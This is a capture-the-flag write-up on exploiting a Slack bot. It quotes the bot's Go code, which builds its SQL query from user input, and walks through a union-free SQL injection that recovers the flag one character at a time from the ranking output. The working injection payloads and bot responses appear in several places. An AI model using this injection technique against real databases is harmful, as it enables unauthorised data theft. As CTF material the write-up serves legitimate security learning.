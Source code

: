## Hall of Fame - 22 Solves

> We made a Slack bot (@hof) to remember our past winners. Hope no one hacks it cuz we are running it on a really important database. 

On the Slack server for the challenge, we are given access to a bot. When typing the help command to see what we have access to, this is what we see:

![helpcommand](https://i.imgur.com/TDjDHY9.png)

The only command that takes in userinput is ``rank``, so that's what we will be exploiting. It takes in a team_name as the parameter. Looking at the given database file, we can see some examples of team names as well as where the flag is located ( ``Flag`` in ``Flags`` at index ``1``.)

Looking at the source code, we can see the method that queries the database with our userinput.

```
// rank <team_name>
func rankHandler(_ slacker.BotContext, request slacker.Request, response slacker.ResponseWriter) {
	teamName := request.Param("team_name")
	var r Rankings
	// query database
	_, _ = db.
		Where(fmt.Sprintf("team_name = '%s'", teamName)).
		Get(&r)
	// send response
	response.Reply(fmt.Sprintf("%d - %s", r.Rank, r.TeamName))
}
```

Let's try inputting one of the team names, ``UMR``.

```
Nathan Melwani  11:17 PM
rank UMR
hof2APP  11:17 PM
18 - UMR
```

Based on the method, we input a string and get a rank and team name out of it. This limits what information we are able to access significantly. We can assume our query is something like this:

```
SELECT * FROM rankings WHERE team_name = `<user input>`
```

We also know that we can get the flag with this query:

```
SELECT flag FROM flags
```

With this, we can create the following injection:

```
rank ' OR rank = (SELECT unicode(substr(flag,1))-105 FROM flags) OR rank = '
```

Let's go through each and every part of query. The first word `rank` is used to run the command that takes in our user input. The ``'`` character is used to close the string used for user input. We are using OR so that we can compare and get data to the flag itself. Skipping to the end, the last ``OR rank = '`` is used to close the query, so that it is valid. The full query would look something like this:

```
SELECT * FROM rankings WHERE team_name = '' OR rank = (SELECT unicode(substr(flag,1))-105 FROM flags) OR rank = ''
```

Now to explain the middle part. We will select the first character of the flag and run it through ``unicode()``, which returns an ascii value of that character of the string. The problem is, in order for the query to successfully result in output, it needs to be able to display a team name that corresponds to a proper team number. This means that the resulting number needs to be between 1 and 20, as these are the only team numbers in the database. Therefore, for the first character (and to show this injection works), I subtract it by 105. The flag format is ``we{*}``, so the first character is ``w``. We know the ascii value of ``w`` is 119. 119-105=14, so if this query works it will show the 14th ranked team.

```
Nathan Melwani  11:26 PM
rank ' OR rank = (SELECT unicode(substr(flag,1))-105 FROM flags) OR rank = '
hof2APP  11:26 PM
14 - w01verines
```

It worked! From this, you can tell that finding the full flag is very, very tedious. You have to keep guessing numbers to subtract by until you find one that is 20 lower than the correct char at that position. Here is one more example. The third char is ``{`` as per the flag format. The ascii value of ``{`` is 123. Therefore, we can use the following injection:

```
Nathan Melwani  11:39 PM
rank ' OR rank = (SELECT unicode(substr(flag,3))-120 FROM flags) OR rank = '
hof2APP  11:39 PM
3 - lsof -i:80
```

Sure enough, 123 (the unicode value at position 3) - 120 = 3, and we are able to see that it is 3 from the slack bot's output. If we were to subtract by a different number, say 60, then 123-60 > 20, so we will not see any output, as there is no corresponding team name for number 63. 

This means you will have to guess what to subtract by, as the range for values in the flag vary greatly. The values that make up the flag, ``-, 0-9, a-z, {, }`` span over 80 numbers, so finding the flag is very time consuming.

Here is the final flag:

```
we{676d13f9-47ef-4364-bc40-09d7761f9a58-br3k-s1ack-8y-sq1-inject1on}
```